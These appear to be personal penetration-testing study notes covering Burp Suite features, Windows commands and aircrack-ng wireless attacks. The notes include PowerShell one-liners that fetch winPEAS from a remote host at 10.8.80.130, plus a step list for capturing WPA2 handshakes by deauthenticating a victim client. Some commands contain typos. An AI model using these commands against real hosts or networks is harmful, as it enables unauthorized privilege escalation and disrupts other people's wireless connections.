 - Payload: define list file, regex or other condition
- Filtering results: 
  - status (200, 401, 302)
  - size: sucess 400 bytes, failed 600 bytes

- CSRF Token: 
  - token changed by every update of the page
  - define macros
  
### Macros
- Repeated actions
- project options + add + selection action to be done
- Session handling rule: select macro + select where to do it (intruder, repeater, target) + update only "name of the field", 

## Decoder, Comparer, Sequencer
- Decoder
  - Encode e decode data
  - hashsums, ASCII, binary, hexa, etc

- Comparer
  - compare data
  - compare responses after logins attempt

- Sequencer
  - measure entropy of tokens
  - analyze after an amount of tokens
  - Auto Analyze = capture every 2000 requests
  

# Usefull Windows commands
- Find file: wmic find users || dir /p datei.txt (find file)
- Windows: get file 
- powershell -c Invoke-Webrequest -OutFile winPeas.exe http://10.8.80.130/file.ext
- powershell -c wget "http://10.8.80.130/Invoke-winPEAS.ps1" -outfile "winPEAS.ps1"

# wireless
- SSID: network name
- BSSID: access point, MACO address
- WPA2
  - PSK = pre shared key = one password for everyone
  - EAP = radius = username + password

## aircrack-ng tools
- airmon-ng = monitor interface
  - airmon-ng start wlan0 = start monitoring
    - stop connections
- airmon-ng check = processes that may interfere with aircrack-ng
  - airmon-ng check kill = kill all processes (no internet)
  - Restore: 
    - airmon-ng stop connection (mode)
    - sudo service NetworkManager restart || sudo service network-manager restart || sudo service wpa_supplicant restart || sudo service dhclient restart
## steps
1 - kill process that can conflict = airmon-ng check kill
2 - turn network card to monitor mode = airmon-ng start [network_name]
3 - find AP around and capture traffic (also 4 handshake) = airodump [my_listener] --bsid [my_mac] --channel --write output
4 - deauthenticate an user to force 4 handshae =  aireplay-ng --deauth 0 -a [my_mac] -c [victim] [network_name]